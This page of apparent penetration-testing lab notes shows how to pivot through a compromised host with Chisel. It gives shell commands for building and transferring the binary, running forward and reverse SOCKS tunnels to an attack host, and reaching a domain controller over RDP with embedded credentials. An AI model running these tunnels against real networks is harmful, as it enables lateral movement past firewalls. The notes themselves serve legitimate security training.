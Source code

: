 # Content
- [Chisel](#chisel)
- [Chisel Pivot](#chisel-pivot)
- [Chisel Reverse Pivot](#chisel-reverse-pivot)

# Chisel
- [chisel](https://github.com/jpillora/chisel)
- Chisel is a TCP/UDP-based tunneling tool written in Go that uses HTTP to transport data that is secured using SSH.
- Chisel can create a client-server tunnel connection in a firewall restricted environment.


![Screenshot_3](https://github.com/kiro6/penetration-testing-notes/assets/57776872/139f0117-4f36-436d-b4e2-29a9a58f1cec)



## Chisel Pivot
### Setting Up & Using Chisel
```shell
$ go install github.com/jpillora/chisel@latest

# or

$ git clone https://github.com/jpillora/chisel.git
$ cd chisel
$ go build
## shrinking the size of the binary
$ go build -ldflags="-s -w"
$ upx brute chisel


# if u have depend proplems in pivot host
go build --ldflags '-linkmode external -extldflags "-static"'
# or install older versions from https://github.com/jpillora/chisel/releases
wget "https://github.com/jpillora/chisel/releases/download/v1.7.4/chisel_1.7.4_linux_amd64.gz"
  
```

### Transferring Chisel Binary to Pivot Host
```shell
$ scp chisel ubuntu@10.129.202.64:~/
```
### Running the Chisel Server on the Pivot Host
```shell
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5


2022/05/05 18:16:25 server: Fingerprint Viry7WRyvJIOPveDzSI2piuIvtu9QehWw9TzA3zspac=
2022/05/05 18:16:25 server: Listening on http://0.0.0.0:1234
```

### Connecting to the Chisel Server
```shell
$ ./chisel client -v 10.129.202.64:1234 socks
```

### Editing & Confirming proxychains.conf

```shell
$ tail -f /etc/proxychains.conf 

# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

### Pivoting to the DC
```shell
$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Chisel Reverse Pivot

### Starting the Chisel Server on our Attack Host
```shell
$ sudo ./chisel server --reverse -v -p 1234 --socks5
```

### Connecting the Chisel Client to our Attack Host

```shell
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks
```

### Editing & Confirming proxychains.conf
```shell
$ tail -f /etc/proxychains.conf 

# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

### Pivoting to the DC
```shell
$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
